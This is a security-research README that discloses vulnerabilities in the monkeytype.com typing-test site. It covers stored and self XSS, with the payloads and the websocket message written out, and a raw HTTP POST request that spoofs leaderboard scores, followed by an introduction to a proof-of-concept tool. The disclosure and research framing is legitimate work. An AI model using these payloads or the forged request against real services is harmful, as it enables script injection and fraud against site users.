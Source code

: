 
```
                      .="=.
                    _/.-.-.\_     _      
                    ( ( o o ) )    ))
                    |/  "  \|    //
    .-------.        \'---'/    //
    _|~~ ~~  |_       /`"""`\\  ((
=(_|_______|_)=    / /_,_\ \\  \\
    |:::::::::|      \_\\_'__/ \  ))
    |:::::::[]|       /`  /`~\  |//
    |o=======.|      /   /    \  /
    `"""""""""`  ,--`,--'\/\    /
                '-- "--'  '--'
  Vulnerability Research by Tyler Butler 🐒 
```



# Banana Cannon 🍌
This repository contains vulnerability research on [monkeytype.com](https://monkeytype.com/), a popular typing-test application with a growing online community. Current research includes two cross-site scripting vulenrabilities and a PoC exploit that allows users to automatically top the leaderboard. 



**Table of Contents**
- [Identified Vulnerabilities](#identified-vulnerabilities)
  - [Stored Cross-Site Scripting (XSS) via Tribe Chat](#stored-cross-site-scripting-xss-via-tribe-chat-1476)
  - [Leaderboard Authenticated ByPass by Spoofing](#leaderboard-authenticated-bypass-by-spoofing)
  - [Self Cross Site Scripting (XSS) via Word History](#self-cross-site-scripting-xss-via-word-history)
- [Proof of Concept Exploits](#proof-of-concept-exploits)
  - [BananaCannon.py](#BananaCannon)

# Identified Vulnerabilities

> The following section describes publically disclosed vulnerabilities
## Stored Cross-Site Scripting (XSS) via Tribe Chat #1476

![](img/tribe_stored_xss.gif)

### Overview

The MonkeyType Tribe chat at https://dev.monkeytype.com/tribe is vulnerable to stored cross-site scripting through user comments and username. The research concludes that client-side input validation can be evaded by intercepting raw web socket traffic, and injecting payloads directly into message content. To do so, malicious users can enter a non-xss string in the chat field and send it to web server, then capture the web socket traffic with a proxy tool like BurpSuite, and finally modify the input to a XSS payload.

### Payload   

In this example, I used an `onclick` payload to demonstrate the capability. The final payload was ```test<svg/onclick=alert`xss`>```

**Socket Message**

```json
42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"test<svg/onclick=alert`xss`>","from":{"id":"i6ZO4keqlEgwQHY-AAAm","name":"pwnville"}}]
```

![](img/tribe_stored_xss.png)


### To Reproduce

+ Configure [BurpSuite](https://portswigger.net/burp) to intercept browser traffic
+ Navigate to https://dev.monkeytype.com/tribe
+ Click on "create room"
+ Turn on BurpSuite proxy interception
+ Enter a new chat string
+ Intercept the web socket traffic, and chang the chat string to an XSS payload, example below.

```json
42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"test<svg/onclick=alert`xss`>","from":{"id":"i6ZO4keqlEgwQHY-AAAm","name":"pwnville"}}]
```


![](img/tribe_stored_xss_burp.png)


### Disclosure Timeline 

+ **May 27th, 2021**: Vulnearbility Discovered and Disclosed on Github per guidance as issue [#1476](https://github.com/Miodec/monkeytype/issues/1476)
+ **May 27th, 2021**: Patch issued


## Leaderboard Authenticated ByPass by Spoofing 

### Overview 

Monkeytype.com is vulnerable to authenticated bypass by spoofing in the leaderboard. Users can bypass leaderboard controls and inject any object they want into the leaderboard by spoofing post requests to `/checkLeaderboards`. Malicious users can send specially crafted post requests and inject any user they want to the top of the leaderboard with any value words per minuet they want. Server does invalidate requests with cross-site scripting (XSS) payloads, therefore I believe this is not vulnerable to XSS.

### Payload

```yaml
POST /checkLeaderboards HTTP/2
Host: us-central1-monkey-type.cloudfunctions.net
Content-Length: 750
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Authorization: Bearer 
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://monkeytype.com
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://monkeytype.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"data":{"uid":"aXi5udatSndUhoQR5pUtR6GpvGF3","lbMemory":{"time15":{"global":null,"daily":null},"time60":{"global":null,"daily":null}},"name":"pwnville_foo2<script>console.log","banned":null,"verified":null,"discordId":null,"result":{"wpm":200.00,"rawWpm":200.00,"correctChars":250,"incorrectChars":6,"allChars":250,"acc":92,"mode":"time","mode2":15,"quoteLength":-1,"punctuation":false,"numbers":false,"timestamp":1622147912060,"language":"english","restartCount":0,"incompleteTestSeconds":0,"difficulty":"normal","testDuration":15.001134999999515,"afkDuration":0,"blindMode":false,"theme":"9009","tags":[],"consistency":83.22,"keyConsistency":45.56,"funbox":"none","bailedOut":false,"customText":null,"uid":"aXi5udatSndUhoQR5pUtR6GpvGF3","id":"vZkPA1dmzeUvaGQPkE4Z"}}}
```

> After making the above post request, my user was added to the top of the leaderboard  


![](img/leader.png)

## Self Cross Site Scripting (XSS) via Word History

![](img/self_xss2.png)

### Overview   

User input is interpreted by the browser unsanitized when entered into the typing challenge. Once the challenge is over and the user opens the "word history" tab, hovering over the mispelled words will cause the browser to interpret the payload as valid injected code. Under current limitations significant code execution cannot be caused due to character limit, however more research should be done to prove impact. This occurs in default settings.

### To Reproduce 

For a XSS payload, just start typing the following upon immediatly starting a new typing test ```"><svg/onclick=alert1`>```

+  Start a new typing challenge
+  Spell the first word correctly, then immediately after the first word and with no spaces after, terminate the string with ">
+  Enter payload
+  Once the timer is complete, select the option to view word history
+  Hover over the misspelled word, and the payload will execute

![](img/self_xss1.png)


# Proof of Concept Exploits  
## BananaCannon
### What is it? 
BananaCannon is a quick proof of concept to show how any user can enter the daily and global leaderboards of [MonkeyType](https://monkeytype.com) by sending carefully crafted post requests to the firebase server located at `https://us-central1-monkey-type.cloudfunctions.net:443/checkLeaderboards`.

### How does it Work?  

BananaCannon works by sending a new post request to `https://us-central1-monkey-type.cloudfunctions.net:443/checkLeaderboards`, passing along a username, uid, and result details. Back-end logic on firebase checks the `wpm`, `rawwpm`, `correctChars`, `incorrectChars`, and `allChars` parameters to ensure an acceptible score is being set. 

